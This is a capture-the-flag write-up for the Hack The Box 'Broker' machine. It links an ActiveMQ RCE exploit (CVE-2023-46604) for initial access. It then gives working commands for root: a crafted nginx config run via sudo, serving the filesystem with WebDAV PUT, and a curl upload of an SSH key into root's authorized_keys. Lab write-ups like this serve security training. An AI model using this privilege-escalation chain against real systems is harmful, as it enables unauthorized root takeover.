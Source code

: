 # Broker Htb writeup

## User

1. Activemq RCE CVE-2023-46604

https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ

## Root

1. Sudo Privilleges

```
activemq@broker:/tmp$ sudo -l
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

create malicions nginx conf file

pwn.conf

```
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
	worker_connections 768;
}
http {
	server {
		listen 1234;
		root /;
		autoindex on;

		dav_methods PUT;
	}
}
``` 

sudo nginx -c /tmp/pwn.conf

Then verify the configurations runs.

ss -tlpn

then create ssh keys move it to root's ssh authorized keys 

```
activemq@broker:/home/activemq$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/activemq/.ssh/id_rsa): ./root
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in ./root
Your public key has been saved in ./root.pub
The key fingerprint is:
SHA256:YO0uGn2CT9MQ9XXf63eQjriz+660PO8FmmR94MbO4+I activemq@broker
The key's randomart image is:
+---[RSA 3072]----+
|        .   . .  |
|       o . . . ..|
|      + . . .   o|
|     . +   + . ..|
|      . S o * +. |
|     o + o B =.. |
|    o * + = = o.o|
|     = = o++ o  o|
|    . .  .E%*    |
+----[SHA256]-----+

```

activemq@broker:/tmp$ curl -X PUT localhost:1234/root/.ssh/authorized_keys -d "$(cat root.pub)"

```bash
activemq@broker:/tmp$ ssh -i root root@localhost
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Dec  1 05:59:56 PM UTC 2023

  System load:           0.009765625
  Usage of /:            73.6% of 4.63GB
  Memory usage:          23%
  Swap usage:            0%
  Processes:             212
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.243
  IPv6 address for eth0: dead:beef::250:56ff:feb9:2b9


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Fri Dec  1 17:51:08 2023 from 127.0.0.1
root@broker:~# whoami
root

```